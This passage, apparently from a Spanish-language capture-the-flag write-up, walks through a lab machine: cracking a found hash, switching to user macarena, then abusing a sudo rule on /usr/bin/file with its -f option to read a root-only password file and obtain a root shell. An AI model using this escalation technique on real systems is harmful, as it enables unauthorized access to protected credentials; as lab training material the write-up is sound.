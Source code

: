 **Hallazgos Clave:**
Buscando en el sistema por este tipo de archivos encontramos esto:
```bash
ls -l /home/secret

-rw-r--r-- 1 root root 49 Aug 19  2024 hash
```

Si revisamos el contenido es un hash desconocido que verificaremos en la siguiente web: [CyberChef](https://gchq.github.io/CyberChef/) donde pegaremos el **hash** y obtenemos el siguiente resultado:
```bash
supersecurepassword
```

Ahora tenemos una password que usaremos intentar loguearnos con un usuario del sistema:
**Nota** Intentado usar esa password para el usuario **root** no funciona,
### Explotacion de Privilegios
Como solo existen dos usuarios en el sistema, Pensamos que esa password es del usuario **macarena** y lo comprobamos de la siguiente manera:
```bash
su macarena # ( supersecurepassword )
```

###### Usuario `[ Macarena ]`:
Ahora listamos los permisos de este usuario:
```bash
sudo -l

User macarena may run the following commands on 81103d670a14:
    (ALL : ALL) /usr/bin/file # Tenemos una via potencial de migrar a root
```

Listando los archivos del directorio **( /opt )** tenemos el siguiente que pertenece a **root**
```bash
ls -l /opt/password.txt 
-rw------- 1 root root 16 Aug 19  2024 /opt/password.txt
```

Ahora nos aprovecharemos de esto para leer el contenido de ese archivo;
```bash
sudo -u root /usr/bin/file -f /opt/password.txt
```

Tenemos la contrasena de **root** **( rooteable2 )**
```bash
# Comando para escalar al usuario: ( root )
su root # ( rooteable2 )
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@81103d670a14:/home/macarena# whoami
root
```
